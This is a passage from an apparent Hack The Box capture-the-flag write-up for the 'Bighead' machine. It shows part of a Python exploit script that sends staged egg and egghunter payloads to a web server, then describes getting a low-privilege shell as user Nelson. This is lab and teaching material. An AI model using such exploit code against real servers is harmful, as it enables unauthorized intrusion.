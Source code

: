 ```python
evil.connect(("10.10.10.112", 80))
evil.send(request % ("GET", stage1))
evil.recv(1024)
os.write(1, "[+] 1st egg sent!\n")
evil.close()

# send stage 1 - egg (2nd)
evil = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
evil.connect(("10.10.10.112", 80))
evil.send(request % ("GET", stage1))
evil.recv(1024)
os.write(1, "[+] 2nd egg sent!\n")
evil.close()

# send stage 1 - egg (3rd)
evil = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
evil.connect(("10.10.10.112", 80))
evil.send(request % ("GET", stage1))
evil.recv(1024)
os.write(1, "[+] 3rd egg sent!\n")
evil.close()

# send stage 2 - egghunter
evil = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
evil.connect(("10.10.10.112", 80))
evil.send(request % ("HEAD", stage2))
os.write(1, "[+] Egghunter sent!\n")
evil.recv(1024)
evil.close()
```

## Low-Privilege Shell

I'm guessing a variant of the vulnerable `BigheadWebSvr.exe` is behind `dev.bighead.htb`. The `nginx.conf` that comes with it confirms my hypothesis.


{% include image.html image_alt="8bba27ec.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/8bba27ec.png" %}


With that in mind, let's give the exploit a shot!


{% include image.html image_alt="2db3e7e4.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/2db3e7e4.png" %}


Woohoo. I got shell as `Nelson`!


{% include image.html image_alt="d2fdebb7.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/d2fdebb7.png" %}


Too bad the excitement was short-lived because this isn't the `user.txt` I expected.


[1]: https://www.hackthebox.eu/home/machines/profile/164
[2]: https://www.hackthebox.eu/home/users/profile/6983
[3]: https://www.hackthebox.eu/